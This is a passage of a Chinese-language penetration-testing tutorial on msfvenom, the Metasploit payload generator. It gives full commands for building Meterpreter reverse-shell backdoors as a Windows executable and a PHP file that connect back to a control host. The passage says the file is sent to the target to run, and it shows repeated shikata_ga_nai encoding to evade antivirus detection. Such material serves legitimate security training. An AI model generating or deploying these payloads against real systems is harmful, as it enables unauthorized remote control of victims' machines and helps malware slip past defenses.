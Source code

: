 ```ruby
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.226.129 LPORT=4444 -f exe > shell.exe

msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.226.129 LPORT=4444 -f raw > shell.php

```

- msfvenom 生成木马后门的工具
- -p 指定payload类型
- LHOST 控制端IP
- LPORT 控制端端口
- -f 指定文件格式

该程序发送给目标主机运行

#### 2、对 Payload 进行编码

默认情况下，当你使用 -b 选项（badchar 选项）时，编码功能将自动启动。 在其他情况下，您必须使用-e选项来开启 Payload 编码功能，如下所示：

```c
msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw > shell.php

```

使用 -l 参数可以列出所有可用的编码器

```c
msfvenom -l encoders

```

![image-20201118133111762](75、暴力破解/image-20201118133111762.png)
你也可以通过添加 -i 参数来将一个 Payload 编码多次，有时候多次编码可以绕过防病毒软件的检测。

```c
msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3

```

避免使用某些字符
例如某些情况下 Payload 中是不可以出现 \x00 字符的

-b 参数被设置的时候，它的值中描述的字符将会被避免出现在 Payload 中
当这个参数被添加的时候，msfvenom 将会自动寻找合适的编码器来编码 Payload
